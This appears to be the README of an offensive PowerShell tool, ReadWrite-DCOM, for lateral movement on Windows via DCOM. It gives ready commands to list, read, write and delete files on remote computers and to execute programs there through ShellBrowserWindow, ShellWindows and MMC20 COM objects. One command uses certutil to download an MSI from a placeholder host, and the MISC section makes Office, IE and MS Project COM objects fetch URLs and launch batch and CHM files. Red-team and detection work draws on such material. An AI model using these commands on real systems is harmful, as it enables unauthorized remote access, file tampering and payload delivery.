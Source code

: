 ## ReadWrite-DCOM

Several lateral movement techniques using DCOM were discovered in the past.  Most of the existing techniques focus on executing commands or VBScript.

ReadWrite-DCOM introduce a couple more use cases by leveraging DCOM. For example, ones can read/write files via Word/Excel COM object, and list directory via ShellWindows COM object on remote computer.

## Read

List a directory on target computer

```powershell
PS> Invoke-ReadWriteDCOM -Action List -ComputerName 127.0.0.1 -TargetPath C:\Temp
```

Read a text file on target computer 

```powershell
PS> Invoke-ReadWriteDCOM -Action Read -ComputerName 127.0.0.1 -TargetPath C:\Temp\comsetup.log
```



## Write 

Write a text file on target computer 

```powershell
PS> Invoke-ReadWriteDCOM -Action Write -ComputerName 127.0.0.1 -TargetPath C:\Temp\run.bat -Text "cmd.exe /c calc"
PS> Invoke-ReadWriteDCOM -Action Write -ComputerName 127.0.0.1 -TargetPath C:\Temp\target.txt -LocalFile C:\Users\Public\myfile.txt -AppendFileEnd
```

Delete a file on target computer i.e, move a file to recycle bin

```	powershell
PS> Invoke-ReadWriteDCOM -Action Delete -ComputerName 127.0.0.1 -TargetPath C:\Temp\comsetup.log
```



## Execute

Execute a program on target computer 

```powershell
PS> Invoke-ReadWriteDCOM -Action Exec -Method ShellBrowserWindow -ComputerName 127.0.0.1 -TargetPath C:\Windows\System32\certutil.exe -Args "-urlcache -f `"https://X.X.X.X/in.msi`" C:\temp\in.msi"
```

Three methods were implemented:

- ShellExecute from ShellBrowserWindow - by Matt Nelson
- InvokeVerbEx from ShellWindows
- ExecuteShellCommand  from MMC20.Application - by Matt Nelson

Remark: The second and third method would pop-up a prompt on target computer

​		

## References

* https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
* https://www.cybereason.com/blog/dcom-lateral-movement-techniques



## MISC

Open a URL link from various application

```powershell
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("Word.Document", "127.0.0.1")).FollowHyperlink("https://XXX/download")
PS> 
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "127.0.0.1")).Document.application.Open("https://XXX/download")
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("InternetExplorer.Application","127.0.0.1")).Navigate("https://XXX/download")
```

Execute Compiled HTML Help file

```powershell
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application", "127.0.0.1")).Help("C:\temp\run.chm")
```

Execute file with MS Project

```powershell
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("MSProject.Application", "127.0.0.1")).OpenBrowser("file:///C:/Windows/System32/calc.exe")
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("MSProject.Application", "127.0.0.1")).FollowHyperlink("file:///C:/temp/run.bat")
```

